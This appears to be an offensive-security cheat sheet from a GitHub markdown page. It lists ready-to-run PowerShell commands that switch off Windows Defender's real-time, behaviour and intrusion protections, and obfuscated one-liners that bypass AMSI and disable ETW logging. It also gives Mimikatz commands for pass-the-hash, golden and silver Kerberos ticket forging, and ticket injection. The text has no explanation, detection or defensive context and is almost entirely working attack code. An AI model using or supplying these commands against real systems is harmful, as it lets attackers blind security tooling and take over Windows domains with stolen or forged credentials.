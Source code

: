 **Glossary**

***Security bypass***

> Policy bypass
>
> > ``

> ***Disable Defender*** 
>
> > ```powershell
> > Set-MpPreference -DisableIOAVProtection $true
> > Set-MpPreference -DisableRealtimeMonitoring $true
> > Set-MpPreference -DisableBehaviorMonitoring $true
> > Set-MpPreference -DisableIntrusionPreventionSystem $true
> > Set-MpPreference -DisablePrivacyMode $true
> > ```

> ***AMSI Bypass*** 
>
> > ```powershell
> > sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
> > ```
> >
> > ```powershell
> > (({}).gettype())."aSs`emblY"."Getty`PE"(('System.Manage'+'ment.Automati'+'on.Trac'+'ing.P'+'SEtwL'+'og'+'Pro'+'vi'+'d'+'e'+'r'))."gEtf`ieLD"(('etwProvi'+'de'+'r'),('Non'+'P'+'ublic,Static'))."Se`TVAL`Ue"($null,(New-Object System.Diagnostics.Eventing.EventProvider(New-Guid)))
> > ```
> >
> > ```powershell
> > [ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
> > ```
> >
> > 

***Run after each ticket forge*** 

> ```powershell
> klist
> 
> Invoke-mimikatz -Command '"sekurlsa::pth /domain:<DomainControllerName> /user:<username> /ntlm:<CapturedValue> /run:powershell.exe"'
> 
> Invoke-Mimkatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAINNAMEFQDN> /sid:<Domain SID> /krbtgt:<RC4 NTLM HASH>  /ptt"'
> 
> Invoke-Mimkatz -Command '"kerberos::golden /domain:<DOMAINNAMEFQDN> /sid:<Domain SID> /target:<server FQDN> /service:<ServiceName> /rc4:<RC4 NTLM HASH>  /User:Administrator  /ptt"'
> 
> Invoke-mimikatz -Command '"kerberos::ptt <TicketFilePAth>"'
> 
> 
> ```

